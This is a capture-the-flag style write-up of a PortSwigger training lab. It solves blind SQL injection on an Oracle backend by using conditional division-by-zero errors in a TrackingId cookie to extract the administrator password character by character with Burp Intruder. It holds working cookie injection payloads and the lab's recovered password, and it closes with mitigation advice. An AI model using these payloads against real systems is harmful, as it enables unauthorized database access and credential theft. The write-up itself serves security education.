



# Blind SQL injection with conditional errors

| Field | Value |
|---|---|
| **Difficulty** | Practitioner |
| **Category** | SQL Injection |
| **Lab URL** | `https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors` |

---

## Lab Overview

The application reads a `TrackingId` cookie and incorporates its value into a SQL query. The query results are not returned and, unlike the previous conditional-responses lab, normal query behavior does **not** visibly change when rows are returned or not.

The one observable difference: a SQL error produces a discernible error response. By deliberately triggering division-by-zero inside a `CASE` expression, I turned the application's error behavior into a boolean oracle and extracted the `administrator` password character by character.

The backend is **Oracle**, and the `users` table contains `username` and `password`.

---

## Vulnerability

The `TrackingId` cookie value is embedded directly into a SQL query:

```sql
SELECT tracking_id FROM tracking WHERE tracking_id = '<TrackingId cookie>'
```

There's no parameterization, so anything I place in the cookie becomes part of the SQL expression. The injection point is the cookie itself, not a URL parameter.

---

## Initial Detection

Because no data is shown and no errors are displayed on ordinary requests, there was no obvious error-based signal to start from — the classic "blind" situation. I confirmed the injection point by closing the string and appending my own placeholder:

```http
Cookie: TrackingId=xyz'
```

Syntax errors in the query triggered the lab's generic error response (an application error page rather than a normal 200), confirming the cookie value reaches the SQL parser.

---

## Identifying the Database

Blind labs behave differently per backend, so I first identified which database I was against. Oracle requires a dummy table for `SELECT` statements with no real table:

```sql
SELECT '' FROM dual
```

Referring to `dual` — Oracle's built-in one-row table — kept the query valid. Testing against a non-existent table:

```sql
SELECT '' FROM not-a-real-table
```

provoked a different error than the valid `dual` form, which strongly suggested an Oracle backend (other databases have no `dual`). With an Oracle backend confirmed, I knew the operator set to use going forward.

---

## Creating the Conditional Error Oracle

The core trick is forcing a database error only when a condition is true. Oracle's `TO_CHAR(1/0)` produces a division-by-zero error, and `CASE WHEN` lets me choose whether it runs:

```sql
CASE WHEN <condition>
     THEN TO_CHAR(1/0)
     ELSE ''
END
```

- **TRUE condition** → `THEN` branch runs → division by zero → SQL error → **HTTP 500**
- **FALSE condition** → `ELSE` branch runs → normal result → **HTTP 200**

I validated the oracle with two trivial conditions:

```sql
CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END   -- true  → HTTP 500
CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END   -- false → HTTP 200
```

The HTTP status pair confirmed the mechanism works. From here, any condition I can express (`LENGTH`, `SUBSTR`, subqueries, etc.) becomes a question the error response answers.

---

## String Concatenation

Oracle uses `||` for string concatenation. Because the original query puts the cookie inside a single-quoted string, I can't just paste a bare `CASE` expression in — I need to close the string, splice in my expression, and re-open it. The payload shape was:

```http
Cookie: TrackingId=xyz'||(SELECT CASE WHEN <condition> THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

The `||` at both ends concatenates my subquery's result (or empty string) into the surrounding expression, keeping the statement syntactically valid while injecting my conditional error logic in the middle.

---

## Confirming the `users` Table

I established the table existed by comparing error behavior between two probes:

```sql
SELECT '' FROM not-a-real-table
```

vs.

```sql
SELECT '' FROM users WHERE ROWNUM = 1
```

`ROWNUM = 1` is Oracle's way of guaranteeing the subquery returns a single row (Oracle's row limiting, absent `LIMIT`/`OFFSET`). The former produced an "object does not exist"-style error while the latter had no such error — the behavioral difference confirmed the `users` table is real.

---

## Confirming the Administrator Account

With the table confirmed, I narrowed the subquery to the target row:

```http
Cookie: TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

The 500/200 oracle worked against the filtered row set, confirming `administrator` exists in `users`.

---

## Determining Password Length

`LENGTH(password)` returns the number of characters in the password. I tested it as a numeric condition:

```sql
CASE WHEN LENGTH(password)>N THEN TO_CHAR(1/0) ELSE '' END
```

Raising `N` from 1 upward, the response was 500 for every length the password is longer than, flipping to 200 once `N` met or exceeded the true length. Incrementing in this way pinned the password length at:

```text
20 characters
```



---

## Extracting Password Characters with Intruder

Character extraction uses `SUBSTR()` to pull one character at a time:

```sql
SUBSTR(password,1,1)
```

reads the first character (1-based indexing, Oracle) — the argument is `(string, position, length)`. Each candidate character is tested inside the `CASE`:

```sql
CASE WHEN (SELECT SUBSTR(password,1,1))='a' THEN TO_CHAR(1/0) ELSE '' END
```

or, at the cookie level, with the character spliced around the concatenation:

```http
Cookie: TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

### Why Sniper

Each position needs 36 candidate characters evaluated one at a time (lowercase `a-z` and digits `0-9`, 36 total). That is a single payload list applied to a single marked position — exactly what **Sniper** does. Cluster Bomb would be for combining two independent lists; here there's only one varying value per request, so Sniper with a simple-list payload of the character set was appropriate.

I marked **only the candidate character** as the payload position:

```text
...SUBSTR(password,1,1)='§a§'...
```

The attack was rerun for positions 1 through 20 with the position number updated each run (the position to mark and the `SUBSTR` index).

### Config details

- Attack type: **Sniper**
- Payload type: **Simple list**
- Payloads: `0-9`, `a-z` → **36**
- Requests per position: 36; total across 20 positions: 720



---

## HTTP Status Interpretation

The result table for each Sniper run had exactly one request returning a different status:

```text
HTTP 500 = tested condition is TRUE   → candidate character matches
HTTP 200 = tested condition is FALSE  → candidate character does not match
```

This status distinction, not any response body, is the oracle. The screenshot below shows a run where the matched character produced the 500:



### Validating the Oracle

Before trusting any extracted character, it's worth re-confirming the mechanism on each Sniper run: one 500 and thirty-five 200s per position means the oracle behaved exactly as designed. If a run returned no 500 (or several), the payload template was wrong — for example the position marker or the `SUBSTR` index being off — and the run should be discarded rather than trusted. Status codes, unlike response bodies or lengths, are unambiguous, but they're only trustworthy after the 1=1/1=2 sanity check passes.

I ran Sniper for positions 1–20, each time recording the single 500 response.

---

## Recovered Password

Assembling the matched character for each of the 20 positions gives the administrator password:

| Position | Character |
|----------|-----------|
| 1 | h |
| 2 | k |
| 3 | 3 |
| 4 | 5 |
| 5 | t |
| 6 | 2 |
| 7 | 1 |
| 8 | 9 |
| 9 | k |
| 10 | 4 |
| 11 | j |
| 12 | e |
| 13 | n |
| 14 | i |
| 15 | 6 |
| 16 | o |
| 17 | b |
| 18 | m |
| 19 | s |
| 20 | l |

Extracted password:

```text
hk35t219k4jeni6obmsl
```

This is the **PortSwigger lab administrator password** recovered during the exercise — it belongs to the training environment, not any real system.

---

## Login / Lab Completion

Using `administrator` / `hk35t219k4jeni6obmsl` in the login form authenticated the account and the lab was marked **Solved**.

---

## Key Takeaways

- **Blind SQL injection** needs a readable side channel — here, the difference between a valid query and a SQL error.
- **Conditional errors** convert boolean logic into an HTTP status oracle (`TO_CHAR(1/0)` + `CASE WHEN`).
- **Backend fingerprinting matters**: Oracle's `dual`, `||`, `SUBSTR`, `ROWNUM` are all database-specific and I had to use them accordingly.
- **`LENGTH`** sizes the target before extraction; **`SUBSTR`** pulls one character at a time.
- **Burp Intruder Sniper** automates the 36-character brute force per position cleanly; the single non-200 response identifies the match.
- **Validate the oracle first** (1=1 vs 1=2) before trusting any extracted data.

---

## Mitigation

- **Parameterized queries / prepared statements** are the primary defense. Binding the cookie as a parameter means `'`, `||`, `CASE`, and `SUBSTR` are treated as data, never executable SQL — the injected boolean logic simply can't run.
- **Never build SQL by string concatenation**; centralize query construction so user input can't reshape the statement.
- **Defense in depth**: validate/whitelist expected input formats even with parameterization.
- **Suppress verbose errors** — the error response is what made this oracle possible; detailed database errors should never reach the client.
- **Least-privilege DB accounts** — limit what the app's query user can read so even a successful injection yields as little as possible.

Input filtering alone is not a sufficient SQL injection defense — parameterization is the fix.

---

## Related Labs

- [12 - Blind SQL injection with conditional responses](../12%20-%20Blind%20SQL%20injection%20with%20conditional%20responses/README.md) — the same blind-extraction technique, but the oracle is a visible "Welcome back" message rather than a triggered SQL error.

## Related Tool

- [`blind_sqli.py`](https://github.com/Utkarsh464/cyber-utils/blob/main/blind_sqli.py) — a small Python implementation of this exact conditional-error oracle (`TO_CHAR(1/0)` + `dual`) that automates the length scan and `SUBSTR` per-character extraction with `requests`. Part of my [`cyber-utils`](https://github.com/Utkarsh464/cyber-utils) utilities repo.

---

## References

- [PortSwigger: Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind)
- [PortSwigger: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)
- [OWASP: SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)